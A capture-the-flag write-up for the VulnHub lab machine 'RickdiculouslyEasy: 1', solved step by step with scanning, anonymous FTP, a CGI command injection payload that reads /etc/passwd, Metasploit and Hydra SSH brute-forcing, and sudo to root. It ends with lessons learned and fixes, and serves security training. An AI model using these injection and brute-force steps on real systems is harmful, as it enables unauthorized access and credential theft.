





# RickdiculouslyEasy: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Beginner |
| **OS** | Linux |
| **Flags** | 9 flags (130 points total) |
| **Theme** | Rick and Morty |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/) |

## Attack Summary

`nmap (9 ports)` → `FTP anon (FLAG)` → `web enum dirb (FLAG, /passwords/winter)` → `Shellshock CGI (passwd enum)` → `Metasploit SSH (Summer:winter)` → `steghide + john (Meeseek → Morty archive)` → `SUID safe binary (131333 → crunch wordlist)` → `Hydra SSH RickSanchez` → `sudo su (root + FLAG)` + `nc port 60000 (FLAG)` + `port 9090 browser (FLAG)`

## Methodology

1. Network discovery and full port scan
2. Anonymous FTP enumeration
3. Web directory brute-force — hidden password page
4. CGI command injection (cat filter bypass)
5. SSH brute-force via Metasploit (Summer)
6. Steganography on image file (meeseek passphrase)
7. SUID binary analysis — argument reveals band name clue
8. Wordlist generation with crunch + Hydra brute-force
9. Root via sudo, extra flags via netcat and web port

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.101
```

Key open ports: 21 (FTP), 80 (HTTP), 9090 (HTTP), 13337 (banner flag), 22222 (SSH), 60000 (netcat).



**FLAG** on port 13337 banner: connect to it and the flag is displayed immediately.

---

## Step 2: Anonymous FTP

```bash
ftp 192.168.1.101
# Username: anonymous  Password: (blank)
ls
get FLAG.txt
quit
cat FLAG.txt
```

FLAG retrieved from FTP root.



---

## Step 3: Web Enumeration

```bash
dirb http://192.168.1.101/
```

Interesting paths: `/robots.txt`, `/passwords/`, `/cgi-bin/`.

Browse to `http://192.168.1.101/passwords/` — a `FLAG.txt` and a `password.html` are present.

View page source of `password.html`:

```html
<!-- Password: winter -->
```

**FLAG** at `/passwords/FLAG.txt`. Password `winter` found.



---

## Step 4: CGI Command Injection

`/cgi-bin/tracertool.cgi` filters `cat` but allows `more`:

```
Input: ; more /etc/passwd
```

Users identified: `RickSanchez`, `Morty`, `Summer`.

---

## Step 5: SSH Login as Summer (Metasploit)

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.1.101
set rport 22222
set username Summer
set password winter
exploit
sessions -u 1
sessions 2
```

Session opened as `Summer`. **FLAG** in Summer's home directory.

```bash
ls
cat FLAG.txt
```



---

## Step 6: Steganography — Morty's Files

```bash
cd /home
ls
cd Morty
ls
download Safe_password.jpg .
download journal.txt.zip .
```

On the attacker machine:

```bash
strings Safe_Password.jpg
# Meeseek
unzip journal.txt.zip
# Enter passphrase: Meeseek
cat journal.txt
# Contains the number: 131333
```

**FLAG** inside `journal.txt`.

---

## Step 7: SUID Binary — Rick's Safe

```bash
cd /home/RickSanchez/RICK_SAFE
ls
download safe .
```

On the attacker machine:

```bash
chmod 777 safe
./safe
./safe 131333
```

Output reveals Rick's password pattern: a capital letter, a number, and a word from his band name "The Flesh Curtains".

---

## Step 8: Wordlist + SSH Brute-Force

Build a wordlist with crunch based on the clue:

```bash
crunch 10 10 -t ,%Curtains >> dict.txt
crunch 7 7 -t ,%Flesh >> dict.txt
```

Brute-force SSH:

```bash
hydra -l RickSanchez -P dict.txt 192.168.1.101 ssh -s 22222
```

Password recovered.

---

## Step 9: Root

```bash
ssh RickSanchez@192.168.1.101 -p 22222
sudo -l
# (ALL) NOPASSWD: ALL
sudo su
cd /root
cat FLAG.txt
```

**FLAG** captured at root.



---

## Bonus Flags

**Port 60000 (netcat):**

```bash
nc 192.168.1.101 60000
ls
cat FLAG.txt
```

**Port 9090:** Open in browser — final FLAG displayed on the page.

---

## Lessons Learned

1. **Anonymous FTP** should be disabled if not required; always audit FTP access policies.
2. **Hardcoded passwords in HTML comments** are trivially discovered by viewing source.
3. **CGI input filtering** that only blocks one command (`cat`) is bypassable — sanitize with a whitelist, not a denylist.
4. **Weak SSH passwords** with pattern-based wordlists are crackable quickly; enforce MFA and key-only auth.
5. **Steganography** is not a security control — assume embedded data will be found.
6. **SUID binaries** that hint at password patterns leak information about authentication secrets.

## Remediation

| Vulnerability | Fix |
|---|---|
| Anonymous FTP | Disable anonymous login or restrict to read-only chroot |
| Password in HTML | Never put credentials in comments or client-side code |
| CGI command injection | Use a whitelist for allowed shell input; avoid shell=True |
| Weak SSH password | Enforce key-only auth; disable password login |
| SUID binary leaking secrets | Remove SUID; don't embed password hints in binaries |
